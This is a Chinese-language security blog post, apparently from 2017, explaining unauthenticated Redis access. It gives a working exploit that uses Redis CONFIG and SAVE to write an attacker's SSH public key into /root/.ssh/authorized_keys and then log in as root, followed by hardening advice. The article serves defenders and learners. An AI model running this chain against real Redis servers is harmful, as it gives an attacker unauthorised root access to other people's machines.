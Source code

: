 ```yaml
---
title: Redis 未授权访问漏洞利用总结
date: 2017-07-15
author: burlin
source_link: http://www.alloyteam.com/2017/07/12910/
---
```


<!-- {% raw %} - for jekyll -->

# Redis 未授权访问漏洞利用总结

_Redis_ 是一个开源的使用 ANSI C 语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value 数据库，并提供多种语言的 API。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.32.54-1024x441.png)

## **一、**漏洞介绍

Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。

### **漏洞描述**

部分 Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是 Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问 Redis 服务并进行相关操作。

利用 Redis 自身的提供的 config 命令，可以进行写文件操作，攻击者可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的 authotrized_keys 文件中，进而可以直接使用对应的私钥登录目标服务器。

![](http://www.alloyteam.com/wp-content/uploads/2017/07/屏幕快照-2017-07-15-下午5.33.41.png)

## 二、漏洞利用

首先在本地生产公私钥文件：

     
    $ ssh-keygen –t rsa
     

然后将公钥写入 foo.txt 文件

     
    $ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
     

连接 Redis 写入文件

     
    $ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
    $ redis-cli -h 192.168.1.11
    $ 192.168.1.11:6379> config set dir /root/.ssh/
    OK
    $ 192.168.1.11:6379> config get dir
    1) "dir"
    2) "/root/.ssh"
    $ 192.168.1.11:6379> config set dbfilename "authorized_keys"
    OK
    $ 192.168.1.11:6379> save
    OK
     

这里讲解下，这里设定了 crackit 的键值为公钥，并通过 redis 命令变更 Redis DB 文件及存放地点为默认 root 用户 SSH key 存放文件，并将键值重定向追加到远程文件 authorized_keys 的末尾，也就上传了公钥。

这样就可以成功的将自己的公钥写入 /root/.ssh 文件夹的 authotrized_keys 文件里，然后攻击者直接执行：

```ruby
 
$ ssh –i  id_rsa root@192.168.1.11
 
```

可远程利用自己的私钥登录该服务器。

刚刚我们提到公钥登录和 Redis 持久化存放数据操作，这里简单讲下原理

## 详细讲解 ssh 登录 -- 公钥登录

SSH 提供了公钥登录，可以省去输入密码的步骤。

所谓 "公钥登录"，原理很简单，就是用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录 shell，不再要求密码。

这种方法要求用户必须提供自己的公钥。如果没有现成的，可以直接用 ssh-keygen 生成一个：

     
    $ ssh-keygen
     

运行上面的命令以后，系统会出现一系列提示，可以一路回车。其中有一个问题是，要不要对私钥设置口令（passphrase），如果担心私钥的安全，这里可以设置一个。

运行结束以后，在 $HOME/.ssh/ 目录下，会新生成两个文件：id_rsa.pub 和 id_rsa。前者是你的公钥，后者是你的私钥。

通常这时再输入下面的命令，将公钥传送到远程主机 host 上面：

```ruby
 
$ ssh-copy-id user@host
 
```

authorized_keys 文件，远程主机将用户的公钥，保存在登录后的用户主目录的 $HOME/.ssh/authorized_keys 文件中。公钥就是一段字符串，只要把它追加在 authorized_keys 文件的末尾就行了。

## 详细相关的 Redis 持久化命令

Redis 支持 2 种持久化策略：snapshot 方式和 commandlog 方式，前者通过将当前内存数据快照周期性写入 RDB 文件来实现；后者通过在 log 中记录 Redis 进程收到的写操作来实现，下次 Redis 重启时，回放 commandlog 来恢复数据状态。  
这里使用 RDB 文件写入 SSH key 文件，需要设置以下两个 **RDB 相关配置**

dbfilename

指定 RDB 文件名，默认为 dump.rdb

dir

指定 RDB 文件存放目录的路径，若包含多级路径，则相关父路径需事先 mkdir 出来，否则启动失败。

set (key, value)：给数据库中名称为 key 的 string 赋予值 value

最后 Client 使用 save 命令通知 redis 做一次快照持久化

## 修复建议 / 安全建议

#### 1. 禁止一些高危命令

修改 redis.conf 文件，添加

     
    rename-command FLUSHALL ""
    rename-command CONFIG   ""
    rename-command EVAL     ""
     

来禁用远程修改 DB 文件地址

#### 2. 以低权限运行 Redis 服务

为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

     
    $ groupadd -r redis && useradd -r -g redis redis
     

#### 3. 为 Redis 添加密码验证

修改 redis.conf 文件，添加

     
    requirepass mypassword
     

#### 4. 禁止外网访问 Redis

修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

     
    bind 127.0.0.1
     

#### 5. 保证 authorized_keys 文件的安全

为了保证安全，您应该阻止其他用户添加新的公钥。

将 `authorized_keys` 的权限设置为对拥有者只读，其他用户没有任何权限：

     
    $ chmod 400 ~/.ssh/authorized_keys
     

为保证 `authorized_keys` 的权限不会被改掉，您还需要设置该文件的 immutable 位权限：

     
    # chattr +i ~/.ssh/authorized_keys
     

然而，用户还可以重命名 `~/.ssh`，然后新建新的 `~/.ssh` 目录和 `authorized_keys` 文件。要避免这种情况，需要设置 `~./ssh` 的 immutable 位权限：

     
    # chattr +i ~/.ssh
     

**注意:** 如果需要添加新的公钥，需要移除 `authorized_keys` 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。


<!-- {% endraw %} - for jekyll -->